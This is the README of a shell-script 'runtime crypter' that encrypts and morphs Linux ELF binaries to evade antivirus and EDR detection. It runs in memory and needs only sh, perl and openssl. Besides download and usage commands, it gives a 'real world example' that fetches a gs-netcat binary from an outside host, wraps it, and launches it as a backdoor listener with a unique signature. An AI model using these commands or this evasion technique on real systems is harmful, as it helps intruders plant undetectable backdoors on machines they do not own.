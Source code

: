 
## A Linux Binary Runtime Crypter - in BASH!

- Obfuscates & encrypts any ELF binary _or_ `#!`-script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files.
- Not soiling the filesystem
- Can double or triple encrypt the same binary (or itself)
- Resulting binary is heavily obfuscated (`string` only shows garbage)
- Living off the Land: Only needs /bin/sh + perl + openssl
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...

![exmaple](https://github.com/user-attachments/assets/c8eff8e4-f879-4017-9015-6422e03dd6ac)

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/raw/refs/heads/main/bincrypter.sh -o bincrypter.sh
chmod +x bincrypter.sh
```

Example:
```shell
cp /usr/bin/id id
./bincrypter.sh id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter.sh id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter.sh >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  

---
Join the fun: https://thc.org/ops  
bsky: [@hackerschoice.bsky.social](https://bsky.app/profile/hackerschoice.bsky.social)  
Mastodon: [@thc@infosec.exchange](https://infosec.exchange/@thc)




